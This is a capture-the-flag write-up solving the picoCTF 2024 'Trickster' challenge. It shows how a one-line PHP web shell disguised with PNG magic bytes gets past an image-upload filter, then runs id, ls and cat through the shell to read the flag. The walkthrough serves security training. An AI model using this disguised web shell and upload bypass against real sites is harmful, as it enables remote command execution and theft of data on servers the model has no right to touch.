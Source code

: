 # Trickster

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: Web Exploitation, picoCTF 2024, browser_webshell_solvable
Author: JUNIAS BONOU

Description:
I found a web app that can help process images: PNG images only!

Try it here!

Hints:
(None)
```

Challenge link: [https://play.picoctf.org/practice/challenge/445](https://play.picoctf.org/practice/challenge/445)

## Solution

### Basic web page analysis

Browse to the web site and you will see a web page with the message "Welcome to my PNG processing app".  
On the web page you can upload PNG files.

Right-click and select 'View page source' (or press `CTRL + U`) to get the HTML-source of the page.

```html
<!DOCTYPE html>
<html>
<head>
    <title>File Upload Page</title>
</head>
<body>
    <h1>Welcome to my PNG processing app</h1>

    
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file" accept=".png">
        <input type="submit" value="Upload File">
    </form>
</body>
</html>
```

Not much there other than that the uploaded file needs to have a `.png` extension.

If we try to upload any PNG picture we get the message:  
`File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully`

We get no indication of where the file is uploaded but normally the destination is in the `/uploads` directory.  
Let's verify this by browsing to `http://atlas.picoctf.net:53321/uploads/test_file.png`.  
Correct! Our test file is displayed.

### Upload a web shell

Next, we will try to upload a [web shell](https://en.wikipedia.org/wiki/Web_shell) disguised as a PNG-file

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Web_Exploitation/Trickster]
└─$ cat web_shell.png.php        
�PNG<?php system($_GET["cmd"]); ?>

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Web_Exploitation/Trickster]
└─$ xxd web_shell.png.php                                                                              
00000000: 8950 4e47 3c3f 7068 7020 7379 7374 656d  .PNG<?php system
00000010: 2824 5f47 4554 5b22 636d 6422 5d29 3b20  ($_GET["cmd"]); 
00000020: 3f3e 0a  
```

Note the PNG magic bytes in the beginning (`89 50 4e 47`) of the file.

Then we upload the web shell through the web page.

### Enumeration through the web shell

Now we can run simple commands through the web shell:

Accessing `http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=id` returns:

```text
�PNGuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The web server's home directory is usually at `/var/www/html`. Let's check that directory.  
Accessing `http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=ls` returns (with view source on the page):

```text
�PNGtotal 16
drwxrwxrwt 1 www-data www-data   21 Mar 11 23:59 .
drwxr-xr-x 1 root     root       18 Nov 21  2023 ..
-rw-r--r-- 1 root     root       49 Mar 11 23:59 GNTDOMBWGIZDE.txt
-rw-r--r-- 1 root     root     1572 Feb  7 17:25 index.php
-rw-r--r-- 1 root     root      415 Feb  7 17:25 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7 17:25 robots.txt
drwxr-xr-x 1 www-data root       31 Jul 13 08:50 uploads
```

The `GNTDOMBWGIZDE.txt` file looks very suspicious.

### Get the flag

Viewing the file by accessing `http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=cat%20/var/www/html/GNTDOMBWGIZDE.txt` returns the flag:

```text
�PNG/* picoCTF{<REDACTED>} */
```

For additional information, please see the references below.

## References

- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [PNG - Wikipedia](https://en.wikipedia.org/wiki/PNG)
- [Web shell - Wikipedia](https://en.wikipedia.org/wiki/Web_shell)
- [xxd - Linux manual page](https://linux.die.net/man/1/xxd)
